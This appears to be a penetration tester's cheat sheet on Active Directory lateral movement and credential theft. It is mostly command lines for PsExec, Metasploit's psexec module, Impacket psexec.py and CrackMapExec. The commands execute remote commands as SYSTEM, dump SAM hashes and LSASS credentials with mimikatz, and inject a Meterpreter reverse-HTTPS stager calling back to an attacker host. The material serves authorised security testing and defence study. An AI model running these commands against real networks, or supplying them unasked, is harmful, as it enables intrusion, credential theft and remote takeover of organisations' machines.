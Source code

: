 # Active Directory - Credentials Theft Shuffle

### User hunting

###### Session hunting with BloodHound

BloodHound uses graph theory to reveal the hidden and often unintended
relationships within an Active Directory environment. Attackers can use
BloodHound to easily identify highly complex attack paths that would otherwise
be impossible to quickly identify.

### Identify local admin access for obtained credentials

### Credentials reuse

The credentials used for authentication and command execution through SMB must
have elevated privileges on the targeted client machine.

To quickly identity which servers or computers in the domain expose a SMB
service (usually all Windows hosts), AD queries and nmap can be used in
combination (refer to the Methodology - Domain Recon note).

###### Locally use credentials

Set the main DNS server on the attacking computer to the Domain Controller IP
address:

```
Control Panel -> Network and Internet -> Network and Sharing Center -> Change adapter setting -> right click on the adapter being used -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties -> Set the Preferred DNS server field  
```

To authenticate locally as another user (with plaintext credentials) and
execute Powershell commands the following commands can be used.

```
# runas
# Use /NetOnly on off-domain machines
runas /NetOnly /user:<DOMAIN>\<USERNAME> powershell.exe

# For the commands supporting PSCredential
$secpasswd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("<DOMAIN>\<USERNAME>", $secpasswd)
```

The `NetOnly` runas option will make runas execute on your local computer as the
currently logged on user, but any connections to other computers on the network
will be made using the user account specified.

###### PsExec

The PsExec CLI utility, signed by Microsoft and from the sysinternals suite,
can be used to execute commands, locally or remotely and under the current
user or the specified user identity.  

While the use of a more complete attack framework is recommended on the
attacking machine (such as CrackMapExec), PsExec can be upload on a compromised
host to hops on until now unreachable targets.

PsExec uses a named pipe with the Server Message Block (SMB) protocol, which
runs on TCP port 445. The PsExec tool requires that the executable be present
on the system performing the connection, but no additional software is
necessary on the target. Additionally, the credentials supplied to PsExec for
authentication must have elevated privileges on the targeted client machine.

```
# -s   Run the remote process in the System account.
# -i   Run the program so that it interacts with the desktop of the specified session on the remote system
# -d   Don't wait for process to terminate (non-interactive).

psexec [\\computer[,computer2[,...] | @file]] [-u user [-p psswd]] [-n s] [-r servicename] [-h] [-l] [-s|-e] [-x] [-i [session]] [-c [-f|-v]] [-w directory] [-d] [-<priority>][-a n,n,...] cmd [arguments]

# Current user identity
# Use the -s option to run as SYSTEM if needed
psexec.exe -accepteula \\<HOST | IP> -s -i -d cmd.exe
psexec.exe -accepteula \\<HOST | IP> -u <DOMAIN | WORKGROUP>\<USERNAME> -p <PASSWORD> -s -i -d cmd.exe
psexec.exe -accepteula \\<HOST | IP> -s -i -d cmd.exe /c <COMMAND> <COMMAND_ARGS>
```

###### Metasploit PsExec

The Metasploit module *exploit/windows/smb/psexec* can be used to execute a
metasploit payload on a target.

This module uses a valid administrator username and password or password hash to
execute an arbitrary payload, similarly to the PsExec utility provided by
SysInternals.

```
# If using a password hash, set SMBPass to <LM_HASH:NT_HASH>
msf> use exploit/windows/smb/psexec
```

###### Impacket psexec.py

The python script `psexec.py` from the scripts collection `Impacket` can be used
as a substitute to the SysInternals or Metasploit psexec tools.

Usage:

```
# The --target-ip specify the IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is an unresolvable NetBIOS name.
# The command default to
psexec.py [-hashes <LM_HASH:NT_HASH>] [-dc-ip <DC_IP>] [-target-ip <TARGET_IP>] [-port [<PORT>]] [[<DOMAIN>/]<USERNAME>[:<PASSWORD>]@]<HOSTNAME | IP> [<COMMAND> [<COMMAND> ...]]
```

Contrary to the two previous tools, the python Impacket psexec.py can be easily
incorporated in scripts:

```
import psexec

psobject = psexec.PSEXEC("cmd.exe", "c:\\windows\\system32\\", None, "445/SMB", username = '<USERNAME>', password = '<PASSWORD>')
raw_result = psobject.run("<HOSTNAME | IP>")
print raw_result
psobject.kill();
```

###### CrackMapExec

CrackMapExec is a "Swiss army knife for pentesting Windows/Active Directory
environments".  

CME can notably be used to test credentials (password or hashes) through SMB or
MSSQL for local administrator access on a large range of targets.

CME has three different command execution methods and, by default will fail over
to a different execution method if one fails. It attempts to execute commands
in the following order:
  1. `wmiexec` executes commands via WMI
  2. `atexec` executes commands by scheduling a task with windows task scheduler
  3. `smbexec` executes commands by creating and running a service

As with PsExec, the credentials supplied for authentication must have elevated
privileges on the targeted system.

CME include multiples modules:

```
crackmapexec --list-modules

[*] empire_exec          Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] mimikittenz          Executes Mimikittenz
[*] rundll32_exec        Executes a command using rundll32 and Windows's native javascript interpreter
[*] com_exec             Executes a command using a COM scriptlet to bypass whitelisting
[*] tokenrider           Allows for automatic token enumeration, impersonation and mass lateral spread using privileges instead of dumped credentials
[*] tokens               Enumerates available tokens using Powersploit's Invoke-TokenManipulation
[*] mimikatz             Executes PowerSploit's Invoke-Mimikatz.ps1 script
[*] powerview            Wrapper for PowerView's functions
[*] shellinject          Downloads the specified raw shellcode and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] enum_chrome          Uses Powersploit's Invoke-Mimikatz.ps1 script to decrypt saved Chrome passwords
[*] metinject            Downloads the Meterpreter stager and injects it into memory using PowerSploit's Invoke-Shellcode.ps1 script
[*] peinject             Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script
[*] eventvwr_bypass      Executes a command using the eventvwr.exe fileless UAC bypass
```

CME cheat sheet:

```
# As of December 2018, no output to file file.
# Use | tee <OUTPUT_FILE> to display standard output and stored result to a file

# TARGETS can be IP(s), range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containg a list of targets

crackmapexec <TARGETS> [-M <MODULE> [-o <MODULE_OPTION>]] (-d <DOMAIN> | --local-auth) -u <USERNAME | USERNAMES_FILE> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>) [--sam] [-x <COMMAND> | -X <PS_COMMAND>]

# SAM
crackmapexec <TARGETS> --sam (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# LSASS dump
crackmapexec <TARGETS> -M mimikatz (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# Meterpreter
# msf exploit(handler) > set payload windows/meterpreter/reverse_https
crackmapexec <TARGETS> -M metinject -o LHOST=<HOST> LPORT=<PORT> -d <DOMAIN> -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```

Note that:

  - the *--lsa* option dumps LSA secrets which can't be used in PtH attack and
    are harder to crack
  - The <TARGETS\> and <MODULE\> should be specified before the credentials as
    a CME bug could skip the targets / module otherwise
  - If the targeted host is unreachable, CME will exit with out returning any
    error message
  - In case the metinject fails, a local administrator can be added for RDP
    access or a powershell reverse shell injected in memory (Refer to the `[General] Shells - PowerShell` note)   

### Credentials dumping

Credential dumping is the process of obtaining account login and password
information, normally in the form of a hash or a clear text password, from
the operating system.

To dump credentials on a Windows host, refer to the [Windows] Post Exploit note.
